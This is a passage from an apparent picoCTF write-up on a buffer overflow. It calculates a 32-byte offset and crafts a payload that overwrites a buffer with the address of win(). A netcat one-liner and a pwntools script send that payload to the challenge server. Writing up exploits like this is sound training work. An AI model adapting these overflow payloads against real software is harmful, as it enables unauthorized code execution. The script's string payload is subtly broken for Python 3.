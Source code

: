 **Calculating offset:**
- `x` address: `0x1e462d0`
- `input_data` address: `0x1e462b0`
- Offset: `0x1e462d0 - 0x1e462b0 = 0x20` (32 bytes in decimal)

This means we need 32 bytes of padding to reach the beginning of the `x` buffer.

### Step 4: Crafting the Payload

**Payload structure:**
```
[32 bytes of padding] + [8 bytes of win() address in little-endian]
```

**Final payload:**
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00
```

## Exploitation Methods

### Method 1: Using echo and netcat

```bash
echo -e -n "2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00\n3\n4\n" | nc mimas.picoctf.net 50729
```

**Command breakdown:**
- `-e`: Enable interpretation of backslash escapes
- `-n`: Suppress trailing newline
- `2\n`: Select menu option 2 (write to buffer)
- `AAAA...`: 32 bytes of padding
- `\xa0\x11\x40\x00\x00\x00\x00\x00`: win() address in little-endian
- `3\n`: Select option 3 to verify overwrite
- `4\n`: Select option 4 to trigger check_win()

### Method 2: Python Script with pwntools

```python
from pwn import *

# Connect to remote service
p = remote('mimas.picoctf.net', 50729)

# Craft payload: 32 bytes padding + win() address
payload = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00'

# Send payload
p.recvuntil(b"Enter your choice: ")
p.sendline(b"2")
p.recvuntil(b"Data for buffer: ")
p.sendline(payload)

# Trigger win condition
p.recvuntil(b"Enter your choice: ")
p.sendline(b"4")

# Receive and print flag
print(p.recvall())
```
